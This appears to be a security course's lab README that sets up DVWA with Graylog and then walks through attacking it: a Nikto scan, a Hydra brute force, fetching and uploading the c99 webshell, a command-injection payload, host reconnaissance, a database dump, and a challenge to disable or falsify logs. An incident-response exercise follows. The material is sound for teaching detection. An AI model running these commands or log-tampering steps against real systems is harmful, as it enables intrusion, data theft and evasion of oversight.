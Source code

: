 # Week 4 - AuditD and logging
This week we are using DVWA for our incident response demo again. DVWA provides a vulnerable webapp that is ready to be hacked out of the box. Graylog will act as our logging server.

## Presentation
AuditD and logging systems: https://docs.google.com/presentation/d/1HiLPQ6p8dZak0xOhoN66NFmos5l11Bwbkvl5hHuep7E/edit?usp=sharing

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### DVWA WebGUI setup
0. Browse to `http://dvwa.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

### Graylog Webgui setup
0. Browse to `http://dvwa.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "System" at the top then "Inputs"
0. Select "Beats" for input type and select "Launch new input"
    1. Select node
    1. Enter "Beats input" for title
    1. Select "save"

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. `nikto -host http://dvwa.hackinglab.beer`

### Hydra brute force
0. `hydra -l admin -P /usr/share/dirb/wordlists/small.txt dvwa.hackinglab.beer -s 8080 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V`

### Zip, upload and unzip c99.php
0. `wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php`
0. `gzip -f c99.php`
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter `8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php` into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer:8080/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: ss -l -n -t
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. `mysql -u root -e "show databases;"`
    1. There is no root password
0. `mysql -u root -e "use dvwa; show tables"`
0. `mysqldump -u root --database dvwa > dump.sql`
0. Use c99.php web shell to download dump

## Incident reponse demo
### Connecting to Graylog
Browse to `http://dvwa.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin

### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.


## IR challenge
0. Browse to `http://dvwa.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "Dashboard" at the top
0. Select "Create Dashboard" 
    1. Enter a name
    1. Enter a description
    1. Select "Save"
0. Select your new dashboard
0. Create widgets to display:
    1. Histogram of log data
    1. Histogram of traffic
    1. Top 10 user-agents from web logs
    1. Top 10 operating systems from web logs
    1. Top 10 browsers from web logs
    1. Top 10 IP addresses from web logs
    1. Top 10 URL's visited from web logs
    1. Top 10 IP from SSH logs
    1. Widget of your choosing to display command injection


## Red team challenge
### Disable logging
0. Easy: Discover a way to disable the logging feature between DVWA and Graylog. 
0. Hard: Discover a way to modify the logging to hide your activities.
    1. The logging mechanism must still send logs

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html
* http://docs.graylog.org/en/2.4/pages/installation/docker.html
* https://www.elastic.co/guide/en/elasticsearch/reference/current/docker.html
* https://hub.docker.com/r/graylog2/graylog/
